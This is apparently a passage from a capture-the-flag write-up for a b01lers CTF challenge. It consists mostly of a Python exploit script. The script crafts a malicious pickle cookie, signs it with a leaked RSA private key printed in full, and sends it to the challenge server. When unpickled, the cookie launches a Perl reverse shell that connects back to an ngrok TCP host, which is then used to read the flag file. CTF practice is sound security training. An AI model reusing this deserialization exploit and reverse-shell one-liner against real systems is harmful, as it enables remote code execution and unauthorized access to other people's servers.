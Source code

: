 ```python
        # expose an ngrok tcp instance and wait for connection
        HOST = "0.tcp.ngrok.io"
        PORT = 12671
        # as there is no python nor php binary on the remote machine, use perl oneliner from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl
        return (exec, ("__import__('subprocess').Popen(['perl', '-e', 'use Socket;$i=\"%s\";$p=%d;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'])" % (HOST, PORT),))

# Leaked signing RSA algorithm
def sign(msg):
    if type(msg) is not bytes:
        msg = bytes(msg, 'utf8')
    keyPair = RSA.construct((122929120347181180506630461162876206124588624246894159983930957362668455150316050033925361228333120570604695808166534050128069551994951866012400864449036793525176147906281580860150210721340627722872013368881325479371258844614688187593034753782177752358596565495566940343979199266441125486268112082163527793027, 65537, 51635782679667624816161506479122291839735385241628788060448957989505448336137988973540355929843726591511533462854760404030556214994476897684092607183504108409464544455089663435500260307179424851133578373222765508826806957647307627850137062790848710572525309996924372417099296184433521789646380579144711982601, 9501029443969091845314200516854049131202897408079558348265027433645537138436529678958686186818098288199208700604454521018557526124774944873478107311624843, 12938505355881421667086993319210059247524615565536125368076469169929690129440969655350679337213760041688434152508579599794889156578802099893924345843674089, 3286573208962127166795043977112753146960511781843430267174815026644571470787675370042644248296438692308614275464993081581475202509588447127488505764805156))
    signer = PKCS1_v1_5.new(keyPair)
    hsh = SHA384.new()
    hsh.update(msg)
    signature = signer.sign(hsh)
    return signature

# Craft the payload
encoded = pickle.dumps(User())
user = binascii.hexlify(encoded)
signature = binascii.hexlify(sign(user))

print("user cookie : ", user)
print("signature : ", signature)

cookies = {
    'user': user.decode(),
    'signature': signature.decode(),
}

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'it-IT,it;q=0.9,fr-IT;q=0.8,fr;q=0.7,en-IT;q=0.6,en;q=0.5,en-US;q=0.4',
}

# send the payload to the server and wait for connection on local machine
response = requests.get('http://chal.ctf.b01lers.com:3000/flag', headers=headers, cookies=cookies, verify=False)
print(response.content)
```
After the connection, simply read the flag.txt file